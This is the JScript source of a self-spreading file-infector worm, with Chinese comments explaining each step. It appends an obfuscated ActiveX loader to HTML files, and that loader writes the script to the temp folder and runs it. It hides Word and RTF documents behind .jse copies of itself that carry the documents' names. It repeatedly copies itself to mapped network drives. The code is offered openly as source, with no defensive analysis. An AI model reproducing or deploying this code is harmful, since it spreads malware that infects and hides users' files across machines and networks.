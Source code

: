 function EditHTML(filepath) {
    var str = '<!--[ANNIE83E333BF08546819]-->';
    if (GetDocType(filepath) != str) {
        var text = ReadText(filepath);
        // 所有斜线替换成双斜线
        var ki4io = script.replace(/\\/g, '\\\\');
        // 所有单引号替换为带转义字符的单引号
        var v0l9m = ki4io.replace(/\'/g, '\\\'');
        // 将脚本插入html代码中
        var html = '<html>\n<script type="text/javascript">\n<!--\nvar ayfp6=new ActiveXObject(\'Scripting.FileSystemObject\');var dk5h8=new ActiveXObject(\'WScript.Shell\');var s41k8=ayfp6.GetSpecialFolder(2);var bgw3u=ayfp6.GetTempName();var vlx8c=\'' + v0l9m + '\'+String.fromCharCode(0);var rwyg5=ayfp6.CreateTextFile(s41k8+\'\\\\\'+bgw3u,true);rwyg5.Write(vlx8c);rwyg5.Close();dk5h8.Run(\'wscript.exe //e:jscript \'+s41k8+\'\\\\\'+bgw3u+\' /t\');\n//-->\n</script>\n</html>';
        SetFileNewAttributes(filepath, 0);
        try {
            // 将生成的DocType标志及HTML代码加入到原文件中
            var file = fso.OpenTextFile(filepath, 2);
            file.WriteLine(str);
            file.WriteLine(text);
            file.WriteLine(html);
            file.Close();
        } catch (e) {}
    }
}

function InfectFolder(path) {
    // 枚举路径下文件
    var e = new Enumerator(fso.GetFolder(path).Files);
    for (e.moveFirst(); !e.atEnd(); e.moveNext()) {
        var filepath = e.item().Path;
        // 如果扩展名为'doc'、'docx'、'ref'并且文件没有打开
        if ((GetExtensionName(filepath) == 'doc' || GetExtensionName(filepath) == 'docx' || GetExtensionName(filepath) == 'rtf') && GetBaseName(filepath).substr(0, 2) != '~$') {
            // 拷贝脚本文件路径下，文件名为已存在office文件名，扩展名为'.jse'
            CopyScriptFile(path + '\\' + GetBaseName(filepath) + '.jse');
            // 隐藏原文件
            SetFileNewAttributes(filepath, 38);
        } else if (GetExtensionName(filepath) == 'htm' || GetExtensionName(filepath) == 'html') { // 如果扩展名为'htm' 或 'html'
            // 编辑HTML文件，将脚本代码插入进去
            EditHTML(filepath);
        }
        WScript.Sleep(4);
    }
}

function RegReadItem(item) {
    return shell.RegRead('HKCR\\' + item + '\\');
}

function InfectNetworkDrives() {
    while (ScriptPath == SysPath) {
        try {
            var network = new ActiveXObject('WScript.Network');
            var e = network.EnumNetworkDrives();
            for (var i = 1; i < e.length; i += 2) {
                CopyScriptFile(e.Item(i) + '\\annie.ani');
                CreateShortcut(e.Item(i) + '\\');
                InfectFolder(e.Item(i) + '\\');
            }
        } catch (e) {}
        WScript.Sleep(900000);
    }
}